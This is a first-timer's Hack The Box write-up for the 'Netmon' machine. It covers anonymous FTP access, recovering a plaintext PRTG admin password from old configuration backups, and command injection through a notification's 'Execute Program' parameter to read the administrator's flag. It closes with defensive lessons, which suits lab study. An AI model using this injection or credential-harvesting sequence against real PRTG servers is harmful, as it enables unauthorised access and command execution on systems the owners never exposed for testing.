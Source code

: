 # Hack The Box
## Netmon

### Introduction
Task in Hack The Box consisit of two flags: user flag and owner flag, which corresponds to both user and admin level permission. This task, Netmon, is a very beginner level task that introduce us to the CTF world.

### User Flag -- Steps
1. Connecting to the machine, we can see the page is an PRTG monitor page, which has a login page.
    ![web interface](./images/HTB/netmon/img1.png)
1. Searching for default password, but failed.
    > Login Name: prtgadmin
    > Password: prtgadmin
1. After trying some SQL injections on the fields, seems the web portal does not have an injection bug. Has to try other ways. Lets see if it has any other openong ports:
    ```console
    # nmap -sV [netmon_ip]
    Nmap scan report for [netmon_ip]
    Host is up (0.31s latency).
    Not Shown: 995 closed ports
    PORT    STATE    SERVICE    VERSION
    21/tcp  open     ftp
    80/tcp  open     http
    ...
    ```
    
1. and we could see there is a ftp port open to us. Again, lets try anonymous account:
    ```console
    # ftp [netmon_ip]
    Name: anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: (no password)
    230 User logged in.
    ftp>
    ```
1. Great! Thanks to wrong configuration, anonymous account is accessible. and we can not get the user flag:
    ```console
    ftp> cd "Users/Public/"
    ftp> ls
    200 PORT command successful.
    ...
    02-03-19 12:35AM        33 user.txt
    ...
    ftp> get user.txt
    ```
1. There we are the flag for the user level.

### Admin Flag -- Steps
1. After er get the user flag, we could continue browse if we can access the admin flag also (you know, sometimes things works just like that):
    ```console
    ftp> cd "/Users/Administrator"
    550 Access is denied.
    ```
1. Okay, so it turns out to be not so easy. After searchong, I found there is a [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) talking about saving the password in plaintext in earlier versions of PRTG monitor. Therefore, I downloaded all the mentioned files:
    ```console
    ftp> cd "/ProgramData/Paessler/PRTG Network Monitor/"
    ftp> get "Configurations/AutoBackups"
    ftp> get "PRTG Configuration.dat"
    ftp> get "PRTG Configuration.old"
    ftp> get "PRTG Configuration.old.bak"
    ```
1. And Check them one by one. Well, most of them didn't show the password, seems the system upgraded. But looks like somebody does not remember to clean up the backup of the old configurations, and the password is in "PRTG Configuration.old.bak" file:
    ```console
    <dbpassword>
      <!-- User: prtgadmin -->
      PrTg@dmin2018
    </dbpassword>
    ```
1. How nice they are to give us the username also! But sadly it is not an account for the ftp server. But we can notice that the username is same as default username of the web portal, so maybe that is an entrence. Shockingly, it happens also not to be the password. but we may twist that "2018" to be "2019", and it brings us to the inside (afterall, it is a old file).
    ![web logged in](./images/HTB/netmon/img2.png)
1. But I don't know what should be used with this hack, so I search the web again. and I found another [post](https://www.codewatch.org/blog/?p=453) that tells that there is a place that we can do remote code execution:
  1. Go to "Setup>Account Settings>Notifications>new notification"
  1. Add new Notification with "Execute Program", set parameter to be exploit code:
      ```console
      test.txt; more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
      ```
      ![new Notification](./images/HTB/netmon/img4.png)
  1. save and return.
  1. Find a sensor that matches the requirement for sending a "notification" (in this case there is a always-down sensor which can let me set a "notify when down" rule)
  1. Add the newly added notification and wait for execute
      ![sensor notification](./images/HTB/netmon/img5.png)
  1. Then wait a while and there should be a log triggered telling us that the meal is ready.
      ![log](./images/HTB/netmon/img6.png)
1. After execute, fetch the file using ftp again, and we can now find the code.
    ```console
    ftp> ls
    200 PORT command successful.
    ...
    02-03-19 12:35AM        33 output.txt
    ...
    ftp> get output.txt
    ```

### Conclusion
- This is my first time to do a CTF, so it is really challenging although the tasks are extremely easy. the road is still very long.
- We should learn that this is a sensor monitor/adminstrating panel, so executing a program would be a normal feature to have, and exploit code execution usually starts here.
- Of course, we should config to not use any default credentials, and close all unnessary ports to avoid any penetration.
- There are some cve posts on google giving exploit, I tried to use them but failed. mostly is because it needs a msfvenom host, which i don't know how to config. but there is still other way around.
- Thank you for reading till here. Hope you had fun!
